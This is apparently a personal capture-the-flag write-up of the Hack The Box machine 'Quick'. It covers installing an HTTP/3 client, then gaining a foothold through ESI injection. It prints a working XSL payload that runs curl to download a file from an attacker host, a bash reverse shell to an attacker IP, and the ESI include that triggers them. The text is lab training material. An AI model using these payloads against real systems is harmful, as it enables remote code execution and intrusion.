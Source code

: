 # Quick (HTTP/3, Symlinks, ESI Injection)

Quick is a hard difficulty Linux machine that features a website running on the  HTTP/3 protocol. Enumeration of the website reveals default credentials. The client portal is found to be vulnerable to ESI (Edge Side Includes) injection. This is used to obtain code execution and gain a foothold. A weak password gives access to a printer console, which permits the addition of new printers. Weak file permissions are exploited to move laterally. Plaintext credentials exposed in a configuration are reused to escalate to root. The official HTB writeup is below:

[Quick walkthrough](https://app.hackthebox.eu/machines/Quick/walkthroughs)

## Skills Learned:

- HTTP/3 Protocol
- Using Symlinks
- ESI Injection
- Since the http server is running on a weird port, you should do a full port scan as well as a UDP scan
- Keep in mind that UDP is connectionless so the results aren't always what they seem to be

### Problems I Ran Into

1. **Installing Quiche**
- Since you cannot connect to HTTP/3 via normal browsers like firefox or chrome, you have to use the QUIC protocol
- You can use a client called quiche which can be found [here](https://github.com/cloudflare/quiche)
- To install this client properly you need the correct version of rust and cargo and these can be installed using rustup

```
sudo apt autoremove rustc
sudo apt autoremove cargo
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
// Rustup installs the latest versions of rustc and cargo
// Never run cargo as sudo, it won't allow you anyway 
// You might also want to install cmake if it is not installed already
// Don't clone the quiche repository in a directory owned by root
git clone --recursive https://github.com/cloudflare/quiche.git
cd quiche
cargo build --examples
// you will find the HTTP/3 client in:
cd target/debug/examples 
```

2. **Foothold**
- problem I ran into was getting the shell. the server from the attacker machine is supposed to be a PHP server because that one executes when it is connected to. run this with `sudo php -S 0.0.0.0:80`
- make an empty `xml` file on your attacker machine eg `pwn.xml`
- make the `esi.xsl` on your machine as well (same folder)

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[curl http://10.10.14.4/shell -o /tmp/shell]]>
</xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- make a bash file called `shell` on your machine (same folder as other two) and put the bash reverse shell one liner:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.6/9001 0>&1
```

- when making the ticket use this code snippet as the message:

```xml
<esi:include src="http://10.10.16.6/pwn.xml" stylesheet="http://10.10.14.4/esi.xsl">
</esi:include>
```

- now run the search ticket query and the bash script will be made on the remote server.
- edit the `esi.xsl` script on you machine to run the command that'll run the bash script and spawn a reverse shell.
